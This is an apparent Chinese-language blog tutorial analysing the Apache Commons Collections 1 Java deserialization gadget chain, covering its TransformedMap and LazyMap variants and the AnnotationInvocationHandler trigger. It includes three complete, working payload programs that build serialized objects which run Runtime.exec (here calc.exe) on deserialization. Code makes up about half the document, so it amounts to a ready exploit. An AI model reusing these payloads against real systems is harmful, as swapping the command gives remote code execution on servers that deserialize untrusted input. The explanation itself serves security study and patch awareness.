

Apache-Commons-Collections 1
目录
title: Apache-Commons-Collections1 反序列化分析 date: tags: java开发与安全
版本
CommonsCollections 3.1 - 3.2.1
JDK版本：1.7（8u71之后已修复不可利用）
环境
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2</version>
</dependency>
Transformer Map 链
RCE原理
我在网上找到了一则利用代码，虽然这个利用代码很粗浅，并没有CC链1的触发过程，但是对于这条链的原理还是可见一斑的。
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;
public class test {
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.getRuntime()),
new InvokerTransformer("exec", new Class[]{String.class},
new Object[]
{"calc.exe"}),
};
Transformer transformerChain = new
ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null,
transformerChain);
outerMap.put("test", "xxxx");
}
}
TransformerMap类
TransformerMap类是造成这个漏洞的原因之一
TransformerMap是apacheCommonsCollections里提供的一个数据类型。它可以修饰一个Map类型的对象。当修饰过的Map添加新元素时，它会调用在decorate里声明好的Trasnformer类的transform方法并传入新添的键名或值名。
Map DecoratedMap = TransformedMap.decorate（Map,keyTransformer,valueTransformer）
keyTransformer和valueTransformer分别指向不同的Transformer类。
Transformer类
我们看一下Transformer类

可以发现它只是一个借口，他的方法需要其他子类实现。 当TransformerMap在新添元素时就会调用decorate里设定好的Transformer类的transform方法。 它的接口实现类有以下几个。
ConstantTransformer
这个类主要的两个方法就是这俩了。
public ConstantTransformer(Object constantToReturn) {
this.iConstant = constantToReturn;
}
public Object transform(Object input) {
return this.iConstant;
}
没什么好说的，就是把传入的对象原原本本返回。
InvokerTransformer
也是两个重要方法
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
this.iMethodName = methodName;
this.iParamTypes = paramTypes;
this.iArgs = args;
}
public Object transform(Object input) {
if (input == null) {
return null;
} else {
try {
Class cls = input.getClass();
Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
return method.invoke(input, this.iArgs);
} catch (NoSuchMethodException var5) {
throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
} catch (IllegalAccessException var6) {
throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
} catch (InvocationTargetException var7) {
throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
}
}
}
就是传入方法名，参数类型和参数，然后通过反射来执行这个方法
ChainedTransformer
也是两个重要方法
public ChainedTransformer(Transformer[] transformers) {
this.iTransformers = transformers;
}
public Object transform(Object object) {
for(int i = 0; i < this.iTransformers.length; ++i) {
object = this.iTransformers[i].transform(object);
}
return object;
}
就是把传入的多个Transfomer类的transformer方法依次执行，每个transformer方法执行后返回的对象会被当做下一次执行的时候传入的参数。
通过以上信息，我们就可以清晰的看懂上面的payload了。 先通过ConstantTransformer获得 Runtime类，再通过InvokerTransformer执行exec方法，然后通过ChainedTransformer将两个类串起来，让InvokerTransformer以ConstantTrasformer返回的Runtime类为参数执行exec方法，达到RCE的目的。
触发
触发，我们选择的地方是sun.reflect.annotation.AnnotationInvocationHandler的readObject方法（注意8u71以下才能有触发点，之后的版本已被修复）

触发点代码。 我们可以发现，它对传入的map的每一个value执行了setValue。

可以很明显的发现会对值进行transform方法。也就是相当于触发了一次Map.put()。接下来，就是payload构造时间了。
但是 AnnotationInvocationHandler 是内部类无法直接实例化，但它的父类InvocationHandler可以，我们可以通过反射得到 AnnotationInvocationHandler 构造方法，然后对其使用newInstance再向上转型为父类 InvocationHandler 。既然要获得对象，我们就应该关注一下它的构造方法。
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
Class[] var3 = var1.getInterfaces();
if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
this.type = var1;
this.memberValues = var2;
} else {
throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
}
}
要传入两个参数，var2不用说了就是我们传入的Map，var1呢？是Annotation类，即所有注释类的接口。我们必须在此处传入一个注释类才能使if判断为真，才能把我们的参数中的Map传入。 但是并不是所有注释类传进去都有效，注释类（实际上就是接口）必须有定义的方法才能正常触发反序列化。关于此点我们后面再详细谈谈。
因为再readObject方法里我们会执行Map var3 = var2.memberTypes()，我们看看memberTypes源码。

发现是返回构造方法中定义好的memberTypes属性。而这个memberTypes属性又和上一行的var2属性有关，var2属性又与getDecalredMethods有关…因此我才猜测 “注释类必须有定义的方法才能正常触发反序列化 “,实际结果确实如此。 目前找到的能够正常触发漏洞的注释类有 Target Retention SuppressWarnings .无一例外他们作为接口都定义了方法。而且在我翻阅一些参考文档后，发现确实是这样
另外一点需要注明的是，Runtime类没有继承Serialize接口，也就是说它不能被直接序列化。 也就是说如果我们在transformer链里想直接通过有new ConstantTransformer(Runtime.getRuntime()) 来获取Runtime对象时，会反序列化失败。 但是Class类是有继承Serialize接口的，我们可以通过transformer链和反射来在反序列化阶段逐步创建Runtime类，继而解决这个问题
总结一下几个坑点： 1.Runtime类不能被序列化 \2. AnnotationInvocationHandler 无法直接实例化，可通过反射获得对象 3.注意在实例化 AnnotationInvocationHandler 时要传入定义好方法的注释类 OK，以上知道了后就能试着写一下payload了（这个payload依旧不能正常执行，错误出处间代码注释，具体原因看下文）。
import java.io.*;
import java.lang.annotation.*;
import java.lang.reflect.*;
import java.util.*;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;
public class test2 {
public static void main(String[] args){
try {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{new String("getRuntime"),new Class[0]}),
new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{new String("calc.exe")}),
};
ChainedTransformer chain = new ChainedTransformer(transformers);
Map innermap = new HashMap();
innermap.put("sc","b"); //不能执行的原因在这里，如果是put("value","a")就可以正常执行
Map outmap = TransformedMap.decorate(innermap,null,chain);
Class Annotation = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor AnnotationCons = Annotation.getDeclaredConstructor(Class.class,Map.class);
AnnotationCons.setAccessible(true);
InvocationHandler InvocationHandler = (InvocationHandler) AnnotationCons.newInstance(Target.class,outmap);
ObjectOutputStream a = new ObjectOutputStream(new FileOutputStream(new File("a.bin")));
a.writeObject(InvocationHandler);
a.close();
ObjectInputStream b = new ObjectInputStream(new FileInputStream("a.bin"));
b.readObject();
b.close();
}
catch (Exception e){e.printStackTrace();}
}
}
为什么不能执行，这原因与上面提到的“ 注意在实例化 AnnotationInvocationHandler 时要传入定义好方法的注释类 ”很有关联。 因为涉及JVM的一些东西，我们不会怎么去深究，就是浅浅的看一下，做出一些推测。
首先我们关注到 AnnotationInvocationHandler 的readObject。

接下来就是复杂的推理了，建议先把各方法的意义弄明白 发现必须要var7！=null才能正常触发反序列化漏洞，那么var7的来源是从(Map)var3中获得以(String)var6为键名的值。var6是var3中一项的键名。而var3的来源是(Annotation)var2的menberTypes,我们跟进这个方法。

那么var1就是AnnotationInvocationHandler的type属性了，而这个type属性在其构造方法中就定义好了，是传入的注释类。 也就是说var1就是我们在实例 AnnotationInvocationHandler 时传入的注释类。 结合以上流程，我们就可以知道这个过程是: 从 实例 AnnotationInvocationHandler 时传入的注释类 中获取最后一个方法，然后把它编入为一个HashMap(以下称为注释方法Map)的一个键名并给予值。在readObject时会遍历传入的Map，如果在传入的Map中找到了一项的键名在注释方法Map中存在（即 在传入的Map中找到了一项的键名与实例化时传入的注释类的最后一个方法同名），则if条件为真，攻击成功。 所以上面为什么put(“value”,任意)才能达成攻击的原因是， Target Retention SuppressWarnings 这三个注释类都有且只有一个方法名为value的方法。

分析完了。这个洞利用版本只能在8u71以前，比较古老无用。
总结
AnnotationInvocationHandler.readObject 会调用传入的map中每一个value的transformer方法，我们可以通过ConstantTrasformer和InvokerTransformer组合为一个ChainedTransformer来逐步还原Runtime类并调用其exec方法实现命令执行。
ConstantTransformer.transformer是返回传入的类，InvokerTransformer.transformer是通过反射对传入的方法名参数名等进行调用，ChainedTransformer.transformer是将传入的transformer方法按顺序执行，并将上一个方法执行结果做参数传递给下一个方法。
在cc4.0中可以发现TransformedMap的decorate方法被删除了，导致该链不能顺畅运行。 jdk8u71 中的AnnotationInvocationHandler#readObject方法中没有memberValue.entrySet，导致链不能顺畅运行。
LazyMap链
ObjectInputStream.readObject()
AnnotationInvocationHandler.readObject()
Map(Proxy).entrySet()
AnnotationInvocationHandler.invoke()
LazyMap.get()
ChainedTransformer.transform()
ConstantTransformer.transform()
InvokerTransformer.transform()
Method.invoke()
Class.getMethod()
InvokerTransformer.transform()
Method.invoke()
Runtime.getRuntime()
InvokerTransformer.transform()
Method.invoke()
Runtime.exec()
RCE原理
LazyMap的获得方法和TransfromerMap差不多。
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
public Object get(Object key) {
if (!super.map.containsKey(key)) {
Object value = this.factory.transform(key);
super.map.put(key, value);
return value;
} else {
return super.map.get(key);
}
在对LazyMap使用get方法时，它会执行this.factory.transform(key),而this.factory.transform如果去跟进分析的话，实质上就是调用我们在decorate传进去的Transformer类。

触发
LazyMap的触发点也在 AnnotationInvocationHandler 中，但不是在readObject方法，而是在invoke方法。invoke方法中有一行
Object var6 = this.memberValues.get(var4);
其中this.memberVales是在构造方法中定义为传入的Map。
那么invoke方法要怎么才能触发呢？答案是动态代理。 熟悉动态代理的朋友肯定直到，invoke方法是动态代理中的一个特殊的方法，在代理类中无论执行什么方法，实质上都是在执行invoke方法。
那么接下来就是骚思路了： 我们通过反射和向上转型得到一个 AnnotationInvocationHandler(Class var1, Map var2) 对象。 构建一个Map的代理类，其第三个参数是刚刚得到的 AnnotationInvocationHandler 对象，再故技重施将其通过向上转型得到一个 AnnotationInvocationHandler 对象。当该对象反序列化执行readObjct方法时，会执行以下entryset方法

本质上来说，是对一个代理类执行了一下entrySet方法，即执行了代理类的invoke方法，又因为代理类的第三个参数填入的是 AnnotationInvocationHandler 对象，其内部已经写好了invoke方法，所以此处执行的代理类的invoke方法即 AnnotationInvocationHandler 对象的invoke方法，继而触发了get方法，继而触发了漏洞。这是一个很妙的地方
多说无益，整paylaod吧
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class test2 {
public static void main(String[] args) throws Exception {
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, new Object[]{"calc.exe"})});
Map innermap = new HashMap();
Map outermap = LazyMap.decorate(innermap, chainedTransformer);
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
cons.setAccessible(true);
//妙处
InvocationHandler handler = (InvocationHandler) cons.newInstance(Override.class,outermap);//获得一个AnnotationInvocationHandler对象
Map Prox = (Map) Proxy.newProxyInstance(outermap.getClass().getClassLoader(), outermap.getClass().getInterfaces(),handler);//创建一个Map的代理类，其代理方法为AnnotationInvocationHandler对象里的invoke方法
InvocationHandler handler1 = (InvocationHandler) cons.newInstance(Override.class,Prox); //将代理Map传入，当代理Map被执行任一方法时，执行invoke方法
//
ObjectOutputStream a = new ObjectOutputStream(new FileOutputStream("a.bin"));
a.writeObject(handler1);
ObjectInputStream b = new ObjectInputStream(new FileInputStream("a.bin"));
b.readObject();
}
}
总结
目的就是为了执行AnnotationInvocationHandler 的invoke方法，我们通过实例化一个AnnotationInvocationHandler（A1） 类并在实例化时的参数中加入传入了LazyMap的AnnotationInvocationHandler（AP） 类的动态代理，在A1构造方法中会有一个AP.entryset的代码，从而触发的AP.invoke。
和TransformMap一样在commons-collections 4 版本中可见，LazyMap的decorate方法被删除，导致这个链不能正常执行。